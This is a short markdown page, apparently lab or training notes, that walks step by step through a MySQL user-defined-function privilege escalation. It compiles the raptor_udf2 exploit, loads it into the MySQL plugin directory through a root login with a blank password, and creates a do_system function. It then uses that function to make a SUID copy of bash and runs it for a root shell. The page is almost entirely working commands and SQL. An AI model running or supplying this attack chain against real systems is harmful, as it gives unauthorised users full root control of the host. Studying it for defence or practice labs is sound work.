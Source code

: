 

# sql exploite
---

- **Change into the MySQL directory:**

    ```bash
    cd /home/user/tools/mysql-udf
    ```

---

- **Compile the `raptor_udf2.c` exploit code:**

    ```bash
    gcc -g -c raptor_udf2.c -fPIC
    gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    ```

---

- **Connect to the MySQL service as the root user with a blank password:**

    ```bash
    mysql -u root
    ```

---

- **In the MySQL shell, create a User Defined Function (UDF) "do_system" using the compiled exploit:**

    ```sql
    use mysql;
    create table foo(line blob);
    insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    create function do_system returns integer soname 'raptor_udf2.so';
    ```

---

- **Use the function to copy `/bin/bash` to `/tmp/rootbash` and set the SUID permission:**

    ```sql
    select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    ```

---

- **Exit from the MySQL shell:**

    ```bash
    exit
    ```

---

- **Run the `/tmp/rootbash` executable with `-p` to gain a shell running with root privileges:**

    ```bash
    /tmp/rootbash -p
    ```

---

- **If you want to exit from root:**

    ```bash
    rm /tmp/rootbash
    exit
    ```

---

